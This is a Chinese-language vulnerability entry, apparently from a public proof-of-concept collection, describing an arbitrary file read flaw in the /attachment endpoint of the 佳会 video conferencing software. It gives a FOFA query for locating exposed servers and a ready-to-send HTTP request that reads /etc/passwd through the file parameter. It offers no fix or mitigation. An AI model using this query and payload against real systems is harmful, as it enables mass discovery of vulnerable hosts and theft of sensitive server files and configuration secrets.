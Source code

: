 ## 佳会视频会议attachment任意文件读取

佳会视频会议是由杭州叁体网络科技有限公司开发的一款线上视频会议软件，叁体·佳会3.0是业内首家兼容HTML5/WebRTC技术的网络会议产品,无需下载任何客户端与插件，即可开启视频会议，无需下载插件即可分享屏幕,甚至只需要用微信/QQ扫描二维码，就能加入视频会议。

佳会视频会议/attachment接口存在任意文件读取漏洞，攻击者可以利用漏洞读取服务器上的任意文件，包括配置文件等敏感信息。

## fofa
```
body="/user/get_app_scheme?site_id="
```

## poc
```
GET /attachment?file=/etc/passwd HTTP/1.1
Host: your-ip
Connection: keep-alive
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
```

![553eaec68e6630ad8d9d0ec8e762bdef](../../images/e7412e36-718a-47cc-bec3-3c0b8fc2145a.png)
